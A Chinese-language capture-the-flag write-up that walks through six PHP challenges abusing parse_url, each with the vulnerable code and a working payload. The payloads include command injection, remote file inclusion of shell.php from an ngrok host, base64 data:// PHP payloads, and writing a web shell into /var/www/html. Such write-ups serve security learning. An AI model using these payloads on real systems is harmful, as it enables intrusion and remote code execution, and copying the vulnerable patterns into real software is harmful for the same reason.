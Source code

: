>考点: *parse_url解析后的数组*
>parse_url() 函数返回一个包含URL各个组成部分的关联数组，其中可能包括下列元素：
	scheme：表示URL的协议部分，如 "http"、"https" 等。
	host：表示URL的主机名或域名部分。
	port：表示URL的端口部分，如果未指定则返回null。
	user：表示URL的用户名部分，如果未指定则返回null。
	pass：表示URL的密码部分，如果未指定则返回null。
	path：表示URL的路径部分。
	query：表示URL的查询部分，即问号后面的部分，如果未指定则返回null。
	fragment：表示URL的片段部分，即#号后面的部分，如果未指定则返回null
	*scheme://user:pass@host:port/path?query#fragment*


### 第一关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-10 10:58:34
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$data = parse_url($_GET['u']);

eval($data['host']);
```

显然只需要传入host即可
`?u=http://system('ls');` 但是注意不能输入分号`;`,会被parse_url解析到`path`部分
*payload*
`?u=http://system('cd ..;cd ..;cd..; cd..;cd ..;cat flag_is_here.txt');`

### 第二关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-12 13:25:53
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$data = parse_url($_GET['u']);

include $data['host'].$data['path'];
```

可以看到没有了eval执行命令,只能文件包含,当时被卡了很久,最终采用远程文件包含做出来了

payload `?u=http://https:://941b-111-18-39-14.ngrok-free.app/shell.php`

`host`=>`https` `path`=>`//941b-111-18-39-14.ngrok-free.app/shell.php`

那么这里为什么有俩个冒号呢,根据群里佬的解析过程
从后往前解析的话,如果遇到一个冒号就会认为是端口 
| data:8080 | data::8080 |
| --------- | ---------- |
| data=>host,8080=>port          | data:=>host,8080=>port           |
所以右边的会才能将冒号外带出来

当然,这道题也是有本地文件包含的解法的
`?u=http://data:://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOyA/Pg==`

### 第三关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-12 13:29:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

$data = parse_url($_GET['u']);

include $data['scheme'].$data['path'];
```

与上一关不同的是 `host` 变为了 `scheme` 

*payload*
`?u=https:://941b-111-18-39-14.ngrok-free.app/shell.php`
拆分一下 `scheme` => `https`    `path`=> `://941b-111-18-39-14.ngrok-free.app/shell.php`

本地包含
`?u=data:://text/plain;base64,PD9waHAgc3lzdGVtKCdscycpOw==`

### 第四关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-12 13:29:35
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

$data = parse_url($_GET['u']);

system($data['host']);

```

*最喜欢的一集*
`?u=http://cd ..;cd ..;cd ..;ls;`
直接就能执行命令

### 第五关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-12 13:29:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

extract(parse_url($_GET['u']));
include $$$$$$host;
```

从`$host`开始,多次变量覆盖
*`scheme://user:pass@host:port/path?query#fragment`*
其中port变量如果为非数字就会报错,并且PHP变量不支持数字开头,所以变量覆盖没有它的份

从host开始,那就先修改host的值为另一个变量名,再依次修改
*`fragment://scheme:user@pass:port/path?<payload>#query`*``
顺序 `$$$$$$host`=>`$$$$$pass`=>`$$$$user`=>`$$$scheme`=>`$$fragment`=>`$query`=>`<payload>`

`<payload>`里插入的内容上面已经提到了,远程文件包含或者data伪协议都可


### 第六关
```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-05-10 09:52:06
# @Last Modified by:   h1xa
# @Last Modified time: 2023-05-12 13:29:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

$data = parse_url($_GET['u']);

file_put_contents($data['path'], $data['host']);
```


第一个参数是文件名,并且path是以`/`开头的,所以我们要写文件的绝对路径到我们的web目录
`/var/www/html/shell.php`
第二个参数是文件内容,但是由于php开启标签需要`?`,如果直接出现在url里就会被解析为query参数,url编码也无法绕过
不难想到使用`<script language='php'> system('ls');` 

*payload*
`?u=http://<script language='php'> system('ls');/var/www/html/shell.php`

成功将命令写入到shell.php
直接访问shell.php即可看到命令执行结果

